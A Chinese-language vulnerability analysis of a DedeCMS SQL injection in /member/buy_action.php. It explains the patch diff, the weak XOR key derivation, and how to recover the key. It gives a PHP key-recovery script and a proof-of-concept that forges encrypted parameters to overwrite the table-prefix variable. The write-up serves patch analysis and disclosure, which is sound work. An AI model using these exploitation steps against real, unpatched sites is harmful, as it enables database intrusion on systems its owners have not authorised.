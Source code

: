 # DedeCMS最新通杀注入(buy_action.php)漏洞分析

0x00 前言
-------

* * *

前两天，乌云白帽子提交了两个DedeCMS的通杀注入漏洞，闹得沸沸扬扬，25号织梦官方发布了补丁，于是就下载最新代码回来做了对比，这里简单的分析下其中的一个注入。

0x01 漏洞分析
---------

* * *

对比补丁后发现，25号发布的源码修改了5个文件，其中的/member/buy_action.php文件补丁对比如图1。

![enter image description here](http://drops.javaweb.org/uploads/images/4f06bfd39fd6982012c88ac42a26c209d727b7cb.jpg)

很明显mchStrCode函数加强了加密强度，补丁前是简单的异或算法，但是织梦25号发布的补丁旨在修复乌云提交的两个注入，这个函数可能有猫腻，搜索调用该函数的文件，如图2。

![enter image description here](http://drops.javaweb.org/uploads/images/0361b41db26d5128c0739142a8ad0ee569fce721.jpg)

接着看到/member/buy_action.php的22 - 40行代码：

```
if(isset($pd_encode) && isset($pd_verify) && md5("payment".$pd_encode.$cfg_cookie_encode) == $pd_verify)
{
    parse_str(mchStrCode($pd_encode,'DECODE'),$mch_Post);
    foreach($mch_Post as $k => $v) $$k = $v;
    $row  = $dsql->GetOne("SELECT * FROM #@__member_operation WHERE mid='$mid' And sta=0 AND product='$product'");
    if(!isset($row['buyid']))
    {
        ShowMsg("请不要重复提交表单!", 'javascript:;');
        exit();
    }
    if(!isset($paytype))
    {
        ShowMsg("请选择支付方式!", 'javascript:;');
        exit(); 
    }
    $buyid = $row['buyid'];

}else{

```

注意其中的这两行代码：

```
parse_str(mchStrCode($pd_encode,'DECODE'),$mch_Post);
    foreach($mch_Post as $k => $v) $$k = $v;

```

调用了mchStrCode函数对$pd_encode变量解密并通过parse_str函数注册变量，紧接着foreach遍历$mch_Post数组，这里如果我们可以控制$pd_encode解码后的内容，就可以注册覆盖任意变量。回过头来看mchStrCode函数的代码：

```
function mchStrCode($string,$action='ENCODE')
{
    $key    = substr(md5($_SERVER["HTTP_USER_AGENT"].$GLOBALS['cfg_cookie_encode']),8,18);
    $string    = $action == 'ENCODE' ? $string : base64_decode($string);
    $len    = strlen($key);
    $code    = '';
    for($i=0; $i<strlen($string); $i++)
    {
        $k        = $i % $len;
        $code  .= $string[$i] ^ $key[$k];
    }
    $code = $action == 'DECODE' ? $code : base64_encode($code);
    return $code;
}

```

看到mchStrCode函数中的这句代码：

```
$key = substr(md5($_SERVER["HTTP_USER_AGENT"].$GLOBALS['cfg_cookie_encode']),8,18);

```

`$_SERVER["HTTP_USER_AGENT"]+$GLOBALS['cfg_cookie_encode']`经过md5取18位字符，其中的`$_SERVER["HTTP_USER_AGENT"]`是浏览器的USER_AGENT，我们可控，关键是这个`$GLOBALS['cfg_cookie_encode']`的来源，我们继续对比补丁，如图3。

![enter image description here](http://drops.javaweb.org/uploads/images/3a4f3b595dc5ac4dd90a54e46c20a45793d973eb.jpg)

其中/install/index.php的$rnd_cookieEncode字符串的生成同样是加强了强度，$rnd_cookieEncode字符串最终也就是前面提到的`$GLOBALS['cfg_cookie_encode']`，我们看看补丁前的代码：

```
$rnd_cookieEncode = chr(mt_rand(ord('A'),ord('Z'))).chr(mt_rand(ord('a'),ord('z'))).chr(mt_rand(ord('A'),ord('Z'))).chr(mt_rand(ord('A'),ord('Z'))).chr(mt_rand(ord('a'),ord('z'))).mt_rand(1000,9999).chr(mt_rand(ord('A'),ord('Z')));

```

这段代码生成的加密密匙很有规律，所有密匙数为26^6*(9999-1000)=2779933068224,把所有可能的组合生成字典，用passwordpro暴力跑MD5或者使用GPU来破解，破解出md5过的密匙也花不了多少时间。 分析到此，现在的关键是如何得到经过MD5加密后的18位长度密匙。前面说过，mchStrCode函数使用简单的异或算法，假设有明文A，密匙B，密文C,则：

```
C = A ^ B
B = A ^ C

```

也就是说ABC只要只其二就可以推导出剩下的一个了。怎么得到明文以及加密后的字符串呢？看到/member/buy_action.php的112 - 114行代码：

```
$pr_encode = '';
    foreach($_REQUEST as $key => $val)
    {
        $pr_encode .= $pr_encode ? "&$key=$val" : "$key=$val";
    }

    $pr_encode = str_replace('=', '', mchStrCode($pr_encode));

    $pr_verify = md5("payment".$pr_encode.$cfg_cookie_encode);

    $tpl = new DedeTemplate();
    $tpl->LoadTemplate(DEDEMEMBER.'/templets/buy_action_payment.htm');
    $tpl->Display();

```

注意到$pr_encode是从$_REQUEST获取的，也就是说明文可控，同时$pr_encode加密后写到html页面，如图4。

![enter image description here](http://drops.javaweb.org/uploads/images/55a15a2266e59a76180a5bcf16001e942842d556.jpg)

0x02 漏洞测试
---------

* * *

下面来测试，这里需要用到firefox的一个插件User Agent Switcher来设置UA,安装插件后，添加一个UA头，其中的User Agent清空，description随便填。确认保存并使用插件将浏览器的UA设置刚刚添加的UA头，即为空。如图5。

![enter image description here](http://drops.javaweb.org/uploads/images/b5b8f2b1f130c610be2e3bbe3c7f17a079818c33.jpg)

设置为空是因为mchStrCode函数中的密匙含`$_SERVER["HTTP_USER_AGENT"]`，如果不为空将加大md5的破解难度，设置为空则密匙为固定10位长度。设置好UA后，注册并登陆会员中心，在“我的织梦”->“消费中心”->“会员升级/点卡充值”中的“购买新点卡”选择“100点卡”，在点击购买前使用Live HTTP header监听，抓到的数据包如图6。

![enter image description here](http://drops.javaweb.org/uploads/images/0e88e18fe8b9165351cf65d9df6fadb102206817.jpg)

因为$_REQUEST获取参数是从$_GET->$_POST->$_COOKIE依次获取，所以$pr_encode明文的的内容为POST的内容“product=card&pid=1”加上COOKIE的内容，然后加密并打印加密后的字符串到html页面。同时“product=card&pid=1”刚好18个字符长度，对应密匙长度。点击购买后支付方式选支付宝，再次使用使用Live HTTP header监听，点击购买并支付提交，抓到的数据包如图7。

![enter image description here](http://drops.javaweb.org/uploads/images/51fa57c76cfa86200db292ba79f04436b2635500.jpg)

将pd_encode=后面的字符串复制下来，利用下面的代码逆出MD5加密后的key：

```
<?php
$key = "product=card&pid=1";
$string = "QEJXUxNTQwlVABcGF0QMVAwFFmBwZzV1ZGd%2FJVhQQAIXWAMCBEZeBwAAUVJTAgoNA0BTBgdWBhZ8UgJVYkdTEywmDAxDdFRQVWVLUhR5c2tpAg4vVQFYVFQHBAVZUV5VBVEGAFdQBRIhVVVRfF9fXghkXllTXFRRCAdRAAUDBQUecwNUUnhZBgwMZV0IVW5rU1t1U1MNVVIOWFFRA1UEAwcEUQZaBUB1eWJpJiogcHcub2RmfA0XUwNUUldbEkoPVFkHVUMbX0BdRQdEXltYTxUKQQ";//加密的pd_encode字符串，需要修改
$string = base64_decode(urldecode($string));
for($i=0; $i<strlen($string); $i++)
{
        $code  .= $string[$i] ^ $key[$i];
}
echo "md5(\$key):" .$code;
?>

```

![enter image description here](http://drops.javaweb.org/uploads/images/767dc4dfb26e7447c33a4fa74ec350deccbbd618.jpg)

如图8。取逆出的key的前16位破解md5即可，破解出密匙后就可以利用mchStrCode函数来加密参数，同时利用变量覆盖漏洞覆盖$GLOBALS[cfg_dbprefix]实现注入。这里给出一段POC，代码如下：

```
<?php
$GLOBALS['cfg_cookie_encode'] = 'CaQIm1790O';
function mchStrCode($string,$action='ENCODE')
{
    $key    = substr(md5($GLOBALS['cfg_cookie_encode']),8,18);
    $string    = $action == 'ENCODE' ? $string : base64_decode($string);
    $len    = strlen($key);
    $code    = '';
    for($i=0; $i<strlen($string); $i++)
    {
        $k        = $i % $len;
        $code  .= $string[$i] ^ $key[$k];
    }
    $code = $action == 'DECODE' ? $code : base64_encode($code);
    return $code;
}

```

其中的CaQIm1790O就是解密出来的密匙，漏洞分析到处结束，感觉像是在记流水账，将就看看吧，最后上个本地测试EXP的图。如图9。

![enter image description here](http://drops.javaweb.org/uploads/images/621b417f9f8ddb2f77e5c9d8b79b0b63a614e33d.jpg)

0x03 总结
-------

* * *

写到这里就算结束了，最后做个总结，漏洞由mchStrCode函数弱算法->导致通过获取到的明文和密文可以逆出经过MD5加密的密匙->破解MD5得到密匙->利用密匙加密数据->经过parse_str函数和foreach遍历最终覆盖表前缀变量$GLOBALS[cfg_dbprefix]实现注入，这样的漏洞并不多见，但危害很大，WAF等防火墙很难防御，漏洞利用过程提交的数据因为加密，面目全非,和正常用户操作提交的数据并无二致。

附：官方补丁地址：[http://www.dedecms.com/pl/](http://www.dedecms.com/pl/)

原文链接：[http://loudong.360.cn/blog/view/id/16](http://loudong.360.cn/blog/view/id/16)